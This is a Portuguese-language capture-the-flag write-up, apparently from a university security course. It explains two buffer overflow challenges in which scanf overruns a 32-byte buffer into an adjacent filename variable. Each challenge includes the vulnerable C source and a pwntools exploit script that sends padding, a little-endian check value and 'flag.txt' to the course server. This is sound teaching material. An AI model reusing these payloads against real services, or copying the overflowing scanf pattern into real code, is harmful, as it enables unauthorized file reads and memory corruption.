


# CTF 3 - Buffer Overflow

## Desafio 1

> No primeiro desafio, temos um programa ```main.c``` com o seguinte código:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[8] = "mem.txt\0";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%40s", &buffer);

    printf("Echo %s\n", buffer);

    printf("I like what you got!\n");
    
    FILE *fd = fopen(meme_file,"r");
    
    while(1){
        if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
            printf("%s", buffer);
        } else {
            break;
        }
    }


    fflush(stdout);
    
    return 0;
}
```

> 1. Existe algum ficheiro que é aberto e lido pelo programa?

<br>

> 1. O programa vai abrir o ficheiro `mem.txt` apartir da função `fopen()` e depois vai ler os conteúdos desse ficheiro com a função `fgets()`.

<br>

> 2. Existe alguma forma de controlar o ficheiro que é aberto?

<br>

> 2. Sim, existe uma vulnerabilidade que permite controlar o ficheiro que é aberto. O nome do ficheiro a ser aberto é "mem.txt". No entanto, antes de abrir o ficheiro, o programa lê um _buffer_ de entrada de 40 _bytes_ com ```scanf()``` e armazena-o em `buffer`. Isso significa que, através de um _buffer overflow_, podemos controlar o nome do ficheiro que é aberto, substituindo o conteúdo do _buffer_ com o nome do ficheiro desejado.

<br>

> 3. Existe algum buffer-overflow? Se sim, o que é que podes fazer?

<br>

> 3. Sim, temos um _buffer_ de 32 _bytes_, mas estamos a ler 40 _bytes_ no ```scanf()```, o que resulta numa vulnerabilidade de _buffer overflow_ . Portanto, só precisamos de inserir 32 caracteres, seguidos pelo nome do ficheiro que contém a _flag_ (```flag.txt```) e assim obtemos a _flag_ para este desafio.

<br>

> Com essas informações, alteramos o ```exploit-example.py``` da seguinte forma:

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4003)

r.recvuntil(b":")
r.sendline(b"zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzflag.txt\0")
r.interactive()
```

> Correndo este este _script_ com ```python3 exploit-example.py``` no terminal é nos _outputted_ a _flag_ deste desafio (figura abaixo).




## Desafio 2

> No segundo desafio, temos um programa ```main.c``` com o seguinte código:

```c
#include <stdio.h>
#include <stdlib.h>

int main() {
    char meme_file[9] = "mem.txt\0\0";
    char val[4] = "\xef\xbe\xad\xde";
    char buffer[32];

    printf("Try to unlock the flag.\n");
    printf("Show me what you got:");
    fflush(stdout);
    scanf("%45s", &buffer);
    if(*(int*)val == 0xfefc2324) {
        printf("I like what you got!\n");
        
        FILE *fd = fopen(meme_file,"r");
        
        while(1){
            if(fd != NULL && fgets(buffer, 32, fd) != NULL) {
                printf("%s", buffer);
            } else {
                break;
            }
        }
    } else {
        printf("You gave me this %s and the value was %p. Disqualified!\n", meme_file, *(long*)val);
    }

    fflush(stdout);
    
    return 0;
}
```

> 1. Que alterações foram feitas?

<br>

> 1. Na segunda versão, foram adicionados dois caracteres nulos no final da _string_ `meme_file`, e um novo `if` foi introduzido para verificar se a variável `val` é igual a `0xfefc2324` antes de continuar o que fazia no programa anterior ou dar print a uma mensagem de desqualificação.

<br>

> 2. Mitigam na totalidade o problema?

<br>

> 2. As alterações na segunda versão mitigam parcialmente o problema, uma vez que introduzem uma nova condição, mas ainda é possível contornar esta nova versão se a variável `val` for ajustada para o valor correto (feito no _script_ em _python_ abaixo).

<br>

> 3. É possível ultrapassar a mitigação usando uma técnica similar à que foi utilizada anteriormente?

<br>

> 3. É possível ultrapassar a mitigação na segunda versão usando uma técnica similar à que foi utilizada anteriormente. Primeiro inserimos 32 caracteres (de maneira igual ao que fizemos no desafio anterior), de seguida inserimos o valor de `val` (`\x24\x23\xfc\xfe` (tem de ser escrito ao contrário porque o sistema é _little endian_)) seguido do nome do ficheiro (`flag.txt`), e desta maneira conseguimos obter a _flag_. 

<br>

> Com essas informações, alteramos o ```exploit-example.py``` da seguinte forma:

```python
#!/usr/bin/python3
from pwn import *

DEBUG = False

if DEBUG:
    r = process('./program')
else:
    r = remote('ctf-fsi.fe.up.pt', 4000)

r.recvuntil(b":")
r.sendline(b"zzzzzzzzzzzzzzzzzzzzzzzzzzzzzzzz\x24\x23\xfc\xfeflag.txt\0")
r.interactive()
```

> Correndo este este _script_ com ```python3 exploit-example.py``` no terminal é nos _outputted_ a _flag_ deste desafio (figura abaixo).




